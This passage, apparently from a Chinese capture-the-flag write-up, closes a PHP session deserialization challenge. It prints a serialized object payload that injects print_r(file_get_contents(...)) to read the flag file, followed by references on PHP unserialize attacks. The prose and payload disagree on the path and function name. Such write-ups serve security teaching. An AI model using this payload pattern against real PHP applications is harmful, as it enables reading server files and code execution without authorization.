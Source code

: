 路径：/opt/lamp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php

替换payload里的`print_r(scandir(dirname(__FILE__)));`为`print_r(file_get_content(\"/opt/lamp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"))`来读取flag

payload:

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}
```



![image-20200531202857396](/images/image-20200531202857396.png)





### REFERENCE

*  https://xz.aliyun.com/t/7366#toc-3 
*  https://xz.aliyun.com/t/3674#toc-13 
*  https://xz.aliyun.com/t/7570#toc-11 
*  https://websec.readthedocs.io/zh/latest/language/php/unserialize.html 